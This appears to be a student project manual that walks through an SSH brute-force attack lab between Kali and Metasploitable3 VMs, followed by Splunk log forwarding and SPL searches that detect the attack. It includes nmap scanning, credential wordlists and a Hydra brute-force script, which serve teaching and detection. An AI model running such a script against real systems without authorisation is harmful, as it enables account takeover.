

# ICS344 Project: SSH Attack and Splunk Analysis Manual

## Phase 1: SSH Brute Force via Script Method

### 1. Environment Setup

Set up the following machines using VirtualBox:

- **Kali Linux** (Attacker)
- **Metasploitable3** (Victim)

#### Network Setup for Both:

- Adapter 1: NAT Network (for internet access)
- Adapter 2: Host-Only Adapter (to allow communication between VMs)

---

### 2. Check VM Communication

- On **Kali**, run:

```bash
ifconfig
```


- On **Metasploitable3**, run:

```bash
ifconfig
```

- If the IP is not `192.168.x.x`, run:

```bash
sudo dhclient -r eth1
sudo dhclient eth1
ifconfig
```


- Test connectivity:

```bash
ping 192.168.56.104 //in Metaspoiltable3
ping 192.168.56.105 //in Kali Linux

```


---

### 3. Discover Open Ports on the Victim

Run from Kali:

```bash
sudo nmap -sS -sV 192.168.56.105
```


---

### 4. Prepare Files & Script (Without Running)

```bash
mkdir ssh-brute
cd ssh-brute
```

#### Create `users.txt`

```bash
nano users.txt
```

Paste:

```
pgsql
admin
root
user
vagrant
aisha
test
```

#### Create `pass.txt`

```bash
nano pass.txt
```

Paste:

```
nginx
password
123456
toor
vagrant
aishapass
testpass
```

#### Create `script.sh`

```bash
nano script.sh
```

Paste:

```bash
#!/bin/bash

TARGET_IP="192.168.56.105"
TARGET_PORT=22
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"
OUTPUT_FILE="valid_credentials.txt"

if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

Make it executable:

```bash
chmod +x script.sh
```

---

## Phase 2: SIEM Log Analysis (Splunk)

### 1. Install Splunk Enterprise on Kali

```bash
wget -O splunk-9.3.2.deb https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb
sudo dpkg -i splunk-9.3.2.deb
sudo apt --fix-broken install
sudo /opt/splunk/bin/splunk start --accept-license
```

Open Splunk in browser: `http://localhost:8000`


### 2. Install Splunk Forwarder on Metasploitable3

```bash
wget -O splunkforwarder-9.4.1.deb "https://download.splunk.com/products/universalforwarder/releases/9.4.1/linux/splunkforwarder-9.4.1-e3bdab203ac8-linux-amd64.deb"
sudo dpkg -i splunkforwarder-9.4.1.deb
sudo apt --fix-broken install
sudo /opt/splunkforwarder/bin/splunk start --accept-license
```

### 3. Enable Receiving on Port 9997 in Splunk

- Go to **Settings > Forwarding and Receiving**
- Click **Add new receiving port** → enter `9997`


### 4. Connect Forwarder to Server

```bash
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.56.104:9997
sudo /opt/splunkforwarder/bin/splunk restart
```

- Check the connection:

```bash
sudo /opt/splunkforwarder/bin/splunk list forward-server
```


### 5. Monitor SSH Log File

```bash
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/auth.log
```


---

### 6. Run the Attack

Back on Kali:

```bash
cd ssh-brute
./script.sh
```


---

### 7. Search Logs and Visualize the Attack in Splunk

After integrating logs from both the attacker (Kali) and the victim (Metasploitable3) machines, we performed structured searches and created visualizations in Splunk to analyze the SSH brute-force attack.

#### Search 1: Failed SSH Logins (Victim Perspective)

We used this query to extract failed login attempts:

```spl
index=* sourcetype=syslog "Failed password" | rex "user (?<user>\w+).*from (?<ip>\d+\.\d+\.\d+\.\d+)" | stats count by ip, user
```

**Visualization:**

- A bar chart showing which usernames were attacked and from which source IP (`192.168.56.104`).
- Total failed attempts: **65**

{ width=80% }
{ width=80% }

---

#### Search 2: Successful Login Detection (Victim Perspective)

To track the moment the attack succeeded:

```spl
index=* sourcetype=syslog "Accepted password" | rex "for (?<user>\w+) from (?<ip>\d+\.\d+\.\d+\.\d+)" | table _time, user, ip
```

**Visualization:**

- Shows the exact timestamp and attacker IP when a valid credential was found (`vagrant:vagrant` from `192.168.56.104`).

{ width=80% }
{ width=80% }

---

#### Search 3: Attacker Log Extraction from Kali

The attacker machine had its logs forwarded via the Splunk Universal Forwarder. We parsed the Hydra output to see which credentials were found.

```spl
index=* sourcetype="attacker_log"
| rex "host:\s(?<ip>\d+\.\d+\.\d+\.\d+).*login:\s(?<user>\w+).*password:\s(?<pass>\w+)"
| table ip, user, pass
```

**Table Output:**

| IP             | Username | Password |
| -------------- | -------- | -------- |
| 192.168.56.105 | vagrant  | vagrant  |

{ width=80% }
{ width=80% }

---

### Log Behavior Summary

- **Brute-force pattern clearly detected**: 65+ failed login attempts followed by 2 accepted logins.
- **Source IP**: All attempts originated from `192.168.56.104` (Kali).
- **Successful credentials**: Captured in both `/var/log/auth.log` and Hydra logs.
- **Timeline**: Logs clearly illustrate the transition from failed to successful access.

---

### Final Visualization Summary

We created the following Splunk visualizations:

- Bar chart: Failed usernames by IP
- Timechart: Frequency of failed attempts
- Table: Extracted credentials from Hydra logs
- Bar chart: Successful login by timestamp

This demonstrates end-to-end visibility of the brute-force attack lifecycle from detection to compromise.

---
